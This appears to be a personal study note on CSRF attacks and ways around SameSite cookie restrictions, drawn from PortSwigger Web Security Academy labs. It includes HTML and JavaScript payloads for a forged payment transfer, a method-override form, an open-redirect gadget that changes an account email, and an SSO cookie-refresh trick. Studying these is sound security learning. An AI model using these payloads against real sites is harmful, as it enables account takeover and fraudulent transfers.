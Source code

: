 [[CSRF]]

TLD (top level domain) = `.com`, `.net`
TLD+1 = `example.com`
Same site = same scheme and same TLD+1
e.g. http://app.example.com and http://intra.example.com

Origin: scheme://app.example.com:443
Site: https://example.com

SameSite levels:
* Strict
* Lax
* None

SameSite=Strict will not send this cookie in any cross-site requests.

SameSite=Lax allows some cross-site requests, but only if both of the conditions are met:
* `GET` method
* Request resulted from a top-level navigation by the user, such as clicking on a link

SameSite=None - no restrictions, browser will send cookies in all requests
When setting a cookie with `SameSite=None`, the website must also include the `Secure` attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set.

# Bypass using GET
```html
<script>
document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes:

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="GET">
	<input type="hidden" name="_method" value="_POST_">
	<input type="hidden" name="recipient" value="hacker">
	<input type="hidden" name="amount" value="1000000">
</form>
```

## Bypassing using on-site gadgets
One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters. Example: [[Open redirection]]
It works only with client-side redirects.
Example
```html
<script>
window.location.replace('https://0a45008403ba507480fc087a00de00d7.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=newMail%40gmail.com%26submit=1');
</script>
```

## Bypassing with newly issued cookies
To avoid breaking SSO mechanisms, Chrome doesn't actually enforce Lax restrictions for the first 120 seconds on top-level `POST` requests. It works only for cookies that were not explicitly set `SameSite=Lax`

You can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack.
```js
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```
#to-be-continued 
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions